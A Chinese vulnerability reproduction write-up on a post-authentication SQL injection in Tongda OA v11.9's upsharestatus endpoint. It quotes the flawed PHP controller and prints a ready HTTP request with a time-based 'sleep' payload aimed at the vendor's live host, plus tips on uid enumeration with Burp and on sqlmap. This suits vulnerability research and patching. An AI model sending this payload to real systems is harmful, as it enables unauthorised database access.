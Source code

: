 # 通达OA v11.9 upsharestatus 后台SQL注入漏洞

# 通达OA v11.9 upsharestatus 后台SQL注入漏洞

## 漏洞描述

通达OA v11.9 及以下版本中由于某些参数过滤不完善导致后台存在SQL注入漏洞

## 漏洞影响

```
通达OA <=  v11.9
```

## 环境搭建

```plain
https://cdndown.tongda2000.com/oa/2019/TDOA11.9.exe
```

双击安装

![image-20220209112211968](/images/202202091122432.png)

## 漏洞复现

漏洞文件位 **webroot/general/appbuilder/modules/portal/controllers/WorkbenchController.php**

```php
public function actionUpsharestatus()
	{
		Yii::$app->response->format = yii\web\Response::FORMAT_JSON;
		$data = modules\appdesign\models\AppUtils::toGBK($_POST);

		if (modules\portal\controllers\intval($data["uid"]) == $_SESSION["LOGIN_UID"]) {
			modules\portal\models\PortalWorkbench::updateAll(array("state" => "{$data["status"]}"), "id={$data["id"]}");
		}
		else if ($data["status"] == 1) {
			modules\portal\models\PortalWorkbenchState::deleteAll(array("wids" => "{$data["id"]}", "uid" => "{$_SESSION["LOGIN_UID"]}"));
		}
		else {
			$Work = new modules\portal\models\PortalWorkbenchState();
			$Work->wids = $data["id"];
			$Work->uid = $_SESSION["LOGIN_UID"];
			$Work->save();
		}

		$dataBack = array("status" => 1, "msg" => modules\portal\controllers\_("操作成功"));
		$dataBack = modules\appdesign\models\AppUtils::toUTF8($dataBack);
		return $dataBack;
	}
```

![image-20220209112228111](/images/202202091122220.png)

其中 **updateAll()** 函数并没有使用防止 SQL注入的 **sql_injection()** 来防止注入

**webroot/inc/conn.php**

![image-20220209112245130](/images/202202091122281.png)

所以这里就出现了 id 参数存在注入的情况，请求包如下

```plain
POST /general/appbuilder/web/portal/workbench/upsharestatus HTTP/1.1
Host: oa.tongda2000.com
Connection: close
Content-Length: 36
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Origin: https://oa.tongda2000.com
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://oa.tongda2000.com/general/appbuilder/web/portal/workbench/upsharestatus
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __root_domain_v=.tongda2000.com; SID_12=5ea03399; USER_NAME_COOKIE=chenqiang; Hm_lvt_7cbefde9059536a2b96aaafc134d625c=1617014067,1617196083; _qddaz=QD.677915359373668; PHPSESSID=nso4iqhvp2qi464eoavk2fn0c0; OA_USER_ID=chenqiang; SID_15=ded66d80; LAST_OPERATION_TIME=1617242241
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

uid=15&status=1&id=1;select sleep(4)
```

注意 uid参数 要为当前用户的uid才能完成请求，可以使用 burp 遍历查看时间响应

例如这里使用官网的测试账户 uid 遍历出为 15

![image-20220209112303802](/images/202202091123903.png)

如果uid错误则不会出现时间延迟，将请求包放入 Sqlmap跑一下

![image-20220209112326082](/images/202202091123191.png)

